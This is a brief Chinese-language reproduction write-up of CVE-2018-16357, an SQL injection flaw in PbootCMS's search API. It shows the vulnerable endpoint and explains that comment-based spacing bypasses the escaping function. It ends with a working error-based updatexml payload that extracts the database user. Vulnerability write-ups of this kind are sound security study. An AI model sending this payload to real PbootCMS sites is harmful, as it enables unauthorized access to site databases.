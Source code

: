 ```yaml
---
title: "（CVE-2018-16357）PbootCMS sql注入漏洞"
id: zhfly3068
---
```


# （CVE-2018-16357）PbootCMS sql注入漏洞

## 一、漏洞简介

PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。 PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

## 二、漏洞影响

## 三、复现过程

```
http://www.0-sec.org/api.php/Cms/search?#acode=1&num=1&order=1 
```

参数$field是我们可以控制的，去检查函数过滤器

![image](../img/1efd5782fbe8b8bda1a199422274a23e.png)

使用函数trim和escape字符串避免sql注入

![image](../img/905c45b167920c61952c767a9f8e4290.png)

添加a'会导致mysql语法错误，因此函数escape\u字符串无效

![image](../img/fe727db1b6f2a8dfb9be09e9062fdbf4.png)

使用/**/绕过

### payload:

```
field=1)/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/user()),0x7e),1)#&keyword=title&scode=1 
```